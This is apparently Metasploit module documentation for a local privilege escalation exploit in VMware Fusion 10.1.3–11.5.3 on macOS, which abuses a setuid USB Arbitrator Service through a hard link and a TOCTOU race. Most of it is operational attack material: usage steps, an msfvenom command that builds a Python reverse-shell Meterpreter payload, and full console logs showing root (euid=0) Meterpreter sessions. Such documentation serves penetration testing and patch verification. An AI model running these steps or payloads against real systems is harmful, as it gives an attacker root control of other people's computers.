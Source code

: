 ## Vulnerable Application

This exploits an improper use of setuid binaries within VMware Fusion 10.1.3 - 11.5.3. The `Open VMware USB Arbitrator Service` can be
launched outide of its standard path which allows loading of an attacker controlled binary. By creating a payload in the user home
directory in a specific folder, and creating a hard link to the `Open VMware USB Arbitrator Service`, we're able to launch it
temporarily to start our payload with an effective UID of 0.

Additional description can be found in
@mirchr's [exploit](https://raw.githubusercontent.com/mirchr/security-research/master/vulnerabilities/CVE-2020-3950.sh).

It was found that VMware Fusion 11.5.3, which patched the previous vulnerability utilized an incomplete patch.  The patch checked
for a correct code signature on the `VMware USB Arbitrator Service` at start, but not at launch, thus creating a TOCTOU race
condition.  The discoverer @jeffball55 demoed the exploit working in ~30 attempts.  This module has been successful between
5 and 25 attempts.

VMware Fusion 11.5.1 is available from [VMware](https://download3.vmware.com/software/fusion/file/VMware-Fusion-11.5.1-15018442.dmg).

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Get a shell
  4. Do: ```use exploit/osx/local/vmware_fusion_lpe```
  5. Do: ```set session #```
  6. Do: ```run```
  7. You should get a `euid=0` shell.

## Options

### MAXATTEMPTS

The maximum attempts to start `VMware USB Arbitrator Service`, attempting to win the race against 11.5.3.  Default is `75`.

### Session

Which session to use this exploit on.

## Scenarios

### VMware Fusion 10.1.6

```
msf exploit(osx/local/vmware_fusion_lpe) > run

[!] SESSION may not be compatible with this module.
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444
[+] Vmware Fusion 10.1.6 is exploitable
[*] Using pre-11.5.3 exploit
[*] Uploading Payload: /Users/wvu/Contents/Library/services/VMware USB Arbitrator Service
[*] Max line length is 131073
[*] Writing 804084 bytes in 25 chunks of 111592 bytes (octal-encoded), using printf
[*] Next chunk is 117552 bytes
[*] Next chunk is 116480 bytes
[*] Next chunk is 114764 bytes
[*] Next chunk is 113263 bytes
[*] Next chunk is 111420 bytes
[*] Next chunk is 112649 bytes
[*] Next chunk is 115231 bytes
[*] Next chunk is 113278 bytes
[*] Next chunk is 114696 bytes
[*] Next chunk is 114109 bytes
[*] Next chunk is 118500 bytes
[*] Next chunk is 119288 bytes
[*] Next chunk is 116736 bytes
[*] Next chunk is 114000 bytes
[*] Next chunk is 114444 bytes
[*] Next chunk is 114460 bytes
[*] Next chunk is 116528 bytes
[*] Next chunk is 112788 bytes
[*] Next chunk is 84713 bytes
[*] Next chunk is 106180 bytes
[*] Next chunk is 89744 bytes
[*] Next chunk is 87533 bytes
[*] Next chunk is 127271 bytes
[*] Next chunk is 71468 bytes
[*] Created folder (/Users/wvu/Bvr/k8h88/GAymi/) and link
[*] Starting USB Service (5 sec pause)
[*] Meterpreter session 2 opened (127.0.0.1:4444 -> 127.0.0.1:63876) at 2020-04-02 11:00:59 -0500
[+] Deleted /Users/wvu/Contents/Library/services/VMware USB Arbitrator Service
[*] Killing service
[*] Deleting /Users/wvu/Bvr

meterpreter > getuid
Server username: wvu @ [redacted] (uid=[redacted], gid=[redacted], euid=0, egid=[redacted])
meterpreter >
```

### VMware Fusion 11.5.1 (15018442) on macOS 10.15.3 (19D76)

```
/msfvenom --payload python/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=8888 -b "\x00" -o /var/www/html/meterp_8888.py
```

```
[*] Processing fusion.rb for ERB directives.
resource (fusion.rb)> setg verbose true
verbose => true
resource (fusion.rb)> use exploit/multi/handler
resource (fusion.rb)> set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
resource (fusion.rb)> setg lhost 1.1.1.1
lhost => 1.1.1.1
resource (fusion.rb)> set lport 8888
lport => 8888
resource (fusion.rb)> exploit
[+] Vmware Fusion 11.5.1 is exploitable
[*] The target appears to be vulnerable.
[*] Started reverse TCP handler on 1.1.1.1:8888
[*] Sending stage (53755 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:8888 -> 2.2.2.2:49265) at 2020-03-23 18:07:57 -0400

meterpreter > getuid
Server username: h00die
meterpreter > sysinfo
Computer        : h00dies-MBP.doman
OS              : Darwin 19.3.0 Darwin Kernel Version 19.3.0: Thu Jan  9 20:58:23 PST 2020; root:xnu-6153.81.5~1/RELEASE_X86_64
Architecture    : x64
System Language : en_US
Meterpreter     : python/osx
meterpreter > background
[*] Backgrounding session 1...
```

```
resource (fusion.rb)> use exploit/osx/local/vmware_fusion_lpe
resource (fusion.rb)> set session 1
session => 1
resource (fusion.rb)> exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 1.1.1.1:4444
[+] Vmware Fusion 11.5.1 is exploitable
[*] Using pre-11.5.3 exploit
[*] Uploading Payload: /Users/h00die/Contents/Library/services/VMware USB Arbitrator Service
[*] Creating folder (/Users/h00die/2KLH/s0m/wX8XO/) and link
[*] Starting USB Arbitrator Service (5 sec pause)
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:49269) at 2020-03-23 18:08:14 -0400
[+] Deleted /Users/h00die/Contents/Library/services/VMware USB Arbitrator Service
[*] Killing service
[*] Deleting /Users/h00die/2KLH

meterpreter > getuid
Server username: h00die @ h00dies-MBP.domain (uid=501, gid=20, euid=0, egid=20)
meterpreter > sysinfo
Computer     : h00dies-MBP.domain
OS           : macOS Unknown (macOS 10.15.3)
Architecture : x86
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx

```

### VMWare Fusion 11.5.3 on macOS 10.15.3

```
resource (fusion.rb)> setg verbose true
verbose => true
resource (fusion.rb)> use exploit/multi/handler
resource (fusion.rb)> set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
resource (fusion.rb)> setg lhost 1.1.1.1
lhost => 1.1.1.1
resource (fusion.rb)> set lport 8888
lport => 8888
resource (fusion.rb)> exploit
[*] Started reverse TCP handler on 1.1.1.1:8888
[*] Sending stage (53755 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:8888 -> 2.2.2.2:49198) at 2020-03-28 07:37:16 -0400

meterpreter > getuid
Server username: h00die
meterpreter > sysinfo
Computer        : h00dies-MBP.ragedomain
OS              : Darwin 19.3.0 Darwin Kernel Version 19.3.0: Thu Jan  9 20:58:23 PST 2020; root:xnu-6153.81.5~1/RELEASE_X86_64
Architecture    : x64
System Language : en_US
Meterpreter     : python/osx
meterpreter > background
[*] Backgrounding session 1...
```

```
resource (fusion.rb)> use exploit/osx/local/vmware_fusion_lpe
resource (fusion.rb)> set session 1
session => 1
resource (fusion.rb)> exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 1.1.1.1:4444
[+] Vmware Fusion 11.5.3 is exploitable
[*] Using 11.5.3 exploit
[*] Uploading Payload to /Users/h00die/Contents/Library/services/SAGgama
[*] Uploading race condition executable.
[*] Writing '/Users/h00die/Contents/Library/services/TVOK7bDP' (342 bytes) ...
[*] Creating folder (/Users/h00die/weGd/JvR/VoYDt/) and link
[*] Writing '/Users/h00die/Contents/Library/services/alYnwGRyo' (178 bytes) ...
[*] Launching Exploit /Users/h00die/Contents/Library/services/alYnwGRyo
[*] attempt 1
[*] Exploit Finished, killing
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:49213) at 2020-03-28 07:37:28 -0400
[-] Unable to delete /Users/h00die/Contents/Library/services/VMware USB Arbitrator Service
[+] Deleted /Users/h00die/Contents/Library/services/TVOK7bDP
[-] Exploit failed: Rex::Post::Meterpreter::RequestError stdapi_fs_delete_dir: Operation failed: Python exception: OSError
[*] Exploit completed, but no session was created.
msf exploit(osx/local/vmware_fusion_lpe) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: h00die @ h00dies-MBP.ragedomain (uid=501, gid=20, euid=0, egid=20)
meterpreter > sysinfo
Computer     : h00dies-MBP.ragedomain
OS           : macOS Unknown (macOS 10.15.3)
Architecture : x86
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
meterpreter >
```

